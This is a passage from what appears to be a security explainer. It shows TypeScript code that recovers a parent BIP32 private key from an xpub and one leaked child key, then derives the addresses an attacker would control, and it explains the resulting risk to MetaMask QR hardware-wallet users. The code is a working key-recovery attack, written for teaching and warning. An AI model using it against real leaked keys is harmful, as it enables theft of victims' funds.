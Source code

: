 ```typescript
  console.log('\nStep 2: Recover root private key at m/44\'/60\'/0\'');
  const rootPrivateKey = recoverParentPrivateKey(xpub, recoveredPriv_0, 0);
  console.log(`  Recovered: ${toHex(rootPrivateKey).slice(0, 20)}...`);

  // Verify: Derive original address from recovered root key
  console.log('\nVerification: Derive original address from recovered key');
  const recoveredRoot = bip32Instance.fromPrivateKey(
    rootPrivateKey,
    xpubNode.chainCode
  );

  const child_0_0 = recoveredRoot.derivePath('0/0');
  const derivedAddress = ethers.computeAddress(toHex(child_0_0.publicKey));

  console.log(`  Original: ${childAddress.toLowerCase()}`);
  console.log(`  Derived:  ${derivedAddress.toLowerCase()}`);
  console.log(`  Match: ${childAddress.toLowerCase() === derivedAddress.toLowerCase() ? 'YES' : 'NO'}`);

  // Show attacker can now control all addresses
  console.log('\nAttacker now controls ALL addresses in this account:');
  console.log('='.repeat(60));

  for (let i = 0; i < 5; i++) {
    const childNode = recoveredRoot.derivePath(`0/${i}`);
    const addr = ethers.computeAddress(toHex(childNode.publicKey));
    console.log(`  Address ${i}: ${addr}`);
  }

  console.log('\n' + '='.repeat(60));
  console.log('CRITICAL: One leaked private key = All addresses compromised!');
  console.log('='.repeat(60));
}

// Run the demonstration
demonstrateAttack();
```

## Why MetaMask QR Wallets Are Vulnerable

MetaMask's QR-based hardware wallet works by:
1. Hardware wallet shares xpub with MetaMask extension
2. Extension generates addresses without hardware device
3. Transactions require hardware device signature

This is **secure by design**... until you leak a private key.

**Dangerous scenarios:**
- Exporting a private key "just once" for temporary use
- Using the private key on a compromised computer
- Accidentally pasting it in a chat or screenshot
- Any situation where the private key leaves the hardware device
